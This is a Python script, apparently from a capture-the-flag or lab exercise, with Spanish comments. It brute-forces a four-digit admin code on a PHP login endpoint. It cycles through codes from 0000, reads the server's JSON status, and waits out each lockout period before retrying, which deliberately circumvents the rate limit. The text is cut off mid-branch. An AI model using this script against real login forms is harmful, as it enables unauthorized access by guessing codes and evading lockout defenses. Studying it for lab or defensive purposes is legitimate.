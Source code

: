 > bruteForceCode.py

```python
#!/bin/python3

import requests
import time

# URL del formulario PHP que maneja el código
url = 'http://lifeordead.dl/pageadmincodeloginvalidation.php'

# La sesión se mantiene abierta para manejar cookies y encabezados
session = requests.Session()

# Función para enviar el código
def send_code(code):
    # Creamos el payload con el código
    payload = {'code': code}
    response = session.post(url, data=payload)
    return response

# Función para realizar el ataque de fuerza bruta
def brute_force():
    max_attempts = 10  # Intentos máximos
    block_time = 30  # Tiempo de bloqueo en segundos
    attempts_left = max_attempts  # Intentos restantes que se actualizan según el servidor
    current_code = 0  # Empezamos con el código 0000

    while True:
        code_str = f'{current_code:04}'  # Formateamos el código con 4 dígitos
        print(f"Intentando código: {code_str}")

        # Enviar el código al servidor
        response = send_code(code_str)

        if response.status_code == 200:
            try:
                data = response.json()  # Parsear la respuesta JSON
            except ValueError as e:
                print("Error al procesar la respuesta JSON:", e)
                return False

            # Si el código es correcto
            if data.get('status') == 'success':
                print(f"¡Código correcto encontrado! El código es {code_str}")
                return True  # Código correcto encontrado

            # Si el código es incorrecto
            elif data.get('status') == 'failed':
                attempts_left = data.get('attempts')  # Actualizamos los intentos restantes según el servidor
                print(f"Intento fallido. Intentos restantes: {attempts_left}")

            # Si está bloqueado
            elif data.get('status') == 'blocked':
                remaining_time = data.get('remainingTime')
                print(f"Estás bloqueado, esperando {remaining_time} segundos...")
                time.sleep(remaining_time + 1)  # Esperamos el tiempo de bloqueo
                print("Reintentando...")

            # Si el código no es válido (no tiene 4 dígitos o es incorrecto)
            elif data.get('status') == 'invalid':
                print("El código debe ser de 4 dígitos. Reintenta.")
        else:
```